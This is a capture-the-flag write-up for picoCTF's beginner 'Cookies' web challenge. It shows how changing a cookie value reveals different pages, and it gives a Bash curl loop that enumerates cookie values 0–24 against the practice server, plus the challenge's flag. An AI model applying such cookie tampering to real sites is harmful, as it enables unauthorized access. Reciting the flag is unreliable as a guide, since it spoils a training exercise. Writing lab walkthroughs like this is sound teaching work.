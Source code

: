# :briefcase: Cookies

- **Difficultly**: `Easy`
- **Category**: `Web Exploitation`
- **Platform**: `picoCTF 2021`
- **Tag**: `None`
- **Author**: `madStacks`
- **Date**: `11/06/2025`

---

# :pencil: Description

Who doesn't love cookies? Try to figure out the best one. [link](https://play.picoctf.org/practice/challenge/173)

---

# :unlock: Solution

1. Access the link

    [image1](images/image1.png)

2. Entered `snickerdoodle` into the input field and clicked the `Search` button`>` A message was displayed on the page

    ![image2](images/image2.png)

3. Checked the cookie `>` We have a cookie named `name` with the value `0`

    ![image3](images/image3.png)

4. Changed the cookie value to `1` and reloaded the page `>` A new message appeared

    ![image4](images/image4.png)

5. So the flag might be revealed at a certain value, therefore we can write a Bash script to automate the process.

    ```sh
    #!/bin/bash

    for i in {0..24}
    do
        cookie="name=$i"
        response=$(curl -s -H "Cookie: $cookie" "http://mercury.picoctf.net:21485/check")

        if echo "$response" | grep -q "picoCTF"; then
            echo "$response" | grep -i "picoCTF"
        fi
    done
    ```

6. We found it

    ![image5](images/image5.png)

---

# :white_flag: Flag

> picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}

---

# :writing_hand: Notes

`None`

---

# :books: Resources

- [Bash Reference Manual](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html)
- [Requests: HTTP for Humans™ — Requests 2.32.4 documentation](https://requests.readthedocs.io/en/latest/)

---

# :hammer_and_wrench: Tools used

`Bash` script

